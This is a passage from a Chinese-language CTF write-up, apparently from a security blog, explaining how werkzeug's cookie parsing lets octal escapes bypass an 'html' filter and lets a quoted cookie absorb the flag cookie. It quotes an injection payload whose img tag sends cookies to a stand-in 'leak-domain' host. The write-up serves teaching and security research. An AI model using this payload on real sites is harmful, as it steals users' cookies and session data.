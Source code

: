 ```javascript
window.onload = () => {
    const params = (new URLSearchParams(window.location.search));
    if (params.get("settings")) {
        window.settings = getSettings(params.get("settings"));
        saveSettings(window.settings);
        renderSettings(window.settings);
    } else {
        window.settings = getCookie("settings");
    }
    window.settings = JSON.parse(window.settings);
```

那这题到底要怎么解呢？这一切都与 werkzeug 解析 cookie 时的逻辑有关。

先来讲如何绕过那个 html 的检查，在 werkzeug 里面如果你的 cookie value 是用 `""` 包住的话，会先进行 decode，因此 `"\150tml"` 会被 decode 成 `"html"` ，就可以绕过对于 html 关键词的检查。

但绕过之后，要怎么拿到 flag 呢？这就要用到 werkzeug 第二个解析 cookie 的特殊之处了。 当 werkzeug 在解析 cookie 时，如果碰到 `"` 时，就会解析到下一个 `"` 为止。

 举例来说，假设 cookie 的内容是这样：

```none
Cookie: cookie1="abc; cookie2=def";
```

 最后得到的结果会是： `"cookie1": "abc; cookie2=def"`

也就是说，如果我们在 flag 的前后各夹一个 cookie，就可以让 flag 包含在 html 里面，让 flag 的内容出现在 html 中，再用其他任何方式把 cookie 拿走，底下直接用作者的 payload：

```none
Cookie: settings="{\"\150tml\": "<img src='https://leak-domain/?cookie= ;flag=GH{FAKE_FLAG}; settings='>\"}"
```

看完这题才突然想到以前 DiceCTF 2023 也出现过类似的题目，那时候是 jetty 有这个行为： Web - jnotes （6 solves），看来搞不好还不少 web framework 有这个 parsing 行为。

[#Security](https://blog.huli.tw/tags/Security/)

[↓↓↓](https://blog.huli.tw/2023/11/27/server-side-rendering-ssr-and-isomorphic/)  
  
从历史的角度探讨多种 SSR（Server-side rendering）  
  
[↑↑↑](https://blog.huli.tw/2023/11/27/server-side-rendering-ssr-and-isomorphic/)
